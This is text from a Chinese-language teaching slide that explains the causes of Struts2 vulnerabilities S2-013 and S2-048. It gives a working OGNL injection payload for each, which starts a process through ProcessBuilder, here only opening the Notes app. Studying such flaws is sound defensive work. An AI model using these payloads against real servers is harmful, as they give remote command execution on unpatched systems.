

漏洞成因——环境配置下的漏洞
S2-013
需要jsp的s:url或者s:a标签中的includeParams属性为all或者get.计算标签中action路径的时候，会把参数值带入ognl.getvalue
http://www.glassy.com/Struts2Demo_war_exploded/hello.jsp?fakeParam=%{#a=(new java.lang.ProcessBuilder(newjava.lang.String[]{"/bin/bash","-c", "open /Applications/Notes.app/"})).start()}
S2-048
使用了Struts 1 plugin 和Struts 1 action 的2.3.x 版本，ST2处理ST1的action的时候会ActionMessage的key传给ognl.getValue
name=${(#glassy='multipart/form-data’).
(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#a=(new java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}
&age=11&__checkbox_bustedBefore=true&description=22